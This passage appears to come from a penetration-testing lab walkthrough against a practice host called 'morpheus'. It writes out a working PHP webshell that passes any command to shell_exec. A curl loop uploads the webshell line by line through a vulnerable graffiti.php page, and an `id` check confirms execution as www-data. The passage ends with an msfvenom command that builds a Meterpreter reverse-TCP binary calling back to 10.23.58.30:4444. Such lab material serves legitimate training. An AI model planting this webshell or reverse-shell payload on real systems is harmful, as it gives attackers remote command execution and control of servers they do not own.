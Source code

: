     ```php
    cat <<END >webshell.php
    <?php
    if (isset(\$_GET['cmd'])) {
       \$cmd = \$_GET['cmd'];
       echo "<pre>";
       echo shell_exec( \$cmd) ;
       echo "</pre>";
       echo "------<br>";
    }
    ?>
    <form method="get">
    <label>command</label><div><input type="text" name="cmd"></div>
    <div><button type="submit">Execute</button></div>
    </form>
    END
    ```

24. Now, let's upload the file line by line, using the same kind of `curl` command we used earlier. We're adding the `-s` flag so that `curl` won't show us speed statistics.  We're piping any other output to `/dev/null`, to avoid seeing the page re-rendered after every single line.

    ```shell
    for line in $(cat webshell.php) ; do
    curl -s -X POST -d file=webshell.php\&message=$line \
       http://morpheus/graffiti.php >/dev/null
    done
    ```

25. Now, go back to your browser and try out your fancy new webshell by following this link:

    <http://morpheus/webshell.php>

26. Type `id` into the command text box and click the "Execute" button.

    ```shell
    id
    ```

27. Notice that the top of the page now shows the output of a Linux `id` command.  On our test system, the output was:

    ```
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

28. This can be an inconvenient way of interacting with a shell. We'll use it to run a Meterpreter instead.  Go back to your terminal window and start a new tab by hitting `Ctrl-Shift-t`.

29. Create an ELF binary meterpreter reverse shell with `msfvenom`, indicating that the meterpreter should connect back to `10.23.58.30` on port `4444`.

    ```shell
    msfvenom --platform linux -p linux/x86/meterpreter/reverse_tcp \
       -a x86 LHOST=10.23.58.30 LPORT=4444 -o mrsbin -f elf
    ```
